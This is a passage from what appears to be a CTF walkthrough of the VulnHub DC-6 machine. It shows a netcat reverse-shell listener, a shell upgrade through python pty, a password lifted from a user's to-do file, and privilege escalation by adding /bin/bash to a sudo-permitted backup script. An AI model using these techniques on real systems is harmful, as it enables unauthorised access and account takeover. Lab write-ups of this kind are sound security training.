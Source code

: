![htmlfile](/assets/img/dc-6/submit.png)

Setup listener and by clicking button we get shell.
```
┌─[✗]─[hitesh@parrot]─[~/boxes/vulnhub/dc-6]
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.1.2] from (UNKNOWN) [192.168.1.7] 54436
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@dc-6:/var/www/html/wp-admin$ ^Z
[1]+  Stopped                 nc -nvlp 4444
┌─[✗]─[hitesh@parrot]─[~/boxes/vulnhub/dc-6]
└──╼ $stty raw -echo 
┌─[hitesh@parrot]─[~/boxes/vulnhub/dc-6]
└──╼ $nc -nvlp 4444

www-data@dc-6:/var/www/html/wp-admin$ export TERM=xterm
www-data@dc-6:/var/www/html/wp-admin$ 
```
# Escalating to user graham
In home directory of user mark I find out `things-to-do.txt`. This file contains password of user `graham`.
```
www-data@dc-6:/home/mark/stuff$ cat things-to-do.txt 
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement
``` 

```
username : graham
password : GSo7isUM1D4
```
# Privilege Escalation
Port 22 is open for ssh and here I try to connect with ssh using creds. Then checked the sudoers list and found that graham can run `/home/jens/backups.sh` as jens without a password.
```
graham@dc-6:~$ sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
```
I checked `backups.sh` and we can edit this file. Edit this file and get shell as jens.
```
graham@dc-6:~$ cat /home/jens/backups.sh 
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
graham@dc-6:~$ vi /home/jens/backups.sh 
graham@dc-6:~$ cat /home/jens/backups.sh 
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
/bin/bash
graham@dc-6:~$ sudo -u jens /home/jens/backups.sh 
jens@dc-6:/home/graham$
```
Now we successfully login as jeans.